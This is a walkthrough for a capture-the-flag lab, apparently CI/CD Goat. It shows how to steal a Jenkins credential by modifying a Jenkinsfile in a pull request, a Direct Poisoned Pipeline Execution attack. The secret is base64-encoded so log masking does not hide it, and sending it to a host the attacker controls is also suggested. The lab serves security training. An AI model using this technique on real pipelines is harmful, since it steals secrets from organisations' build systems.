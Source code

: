 [![CICD-SEC-4 Poisoned Pipeline Execution (PPE)](https://img.shields.io/badge/CICD--SEC--4-Poisoned%20Pipeline%20Execution%20(PPE)-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/)

Create a pull request and execute a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack against the _Wonderland/white-rabbit_ repository to steal the _flag1_ secret, which is stored in the Jenkins credential store with the Global scope - meaning it’s accessible to any pipeline on the Jenkins instance.

1. Clone the _Wonderland/white-rabbit_ repository.
2. Checkout to a new branch.

```shell
git checkout -b challenge1
```

3. Modify the Jenkinsfile to load _flag1_, and print it to the Jenkins build console output which you have access to (encode it so it won’t be masked), or send it to a host you control.

    Under “environment”, load the secret:

```groovy
stage ('Install_Requirements') {
    steps {

        withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
            sh '''
                echo $flag1 | base64
            '''                 
        }
```

4. Push the changes to the remote branch and create a pull request. A pipeline will be triggered automatically.
5. Access the console output of the executed job to get the secret.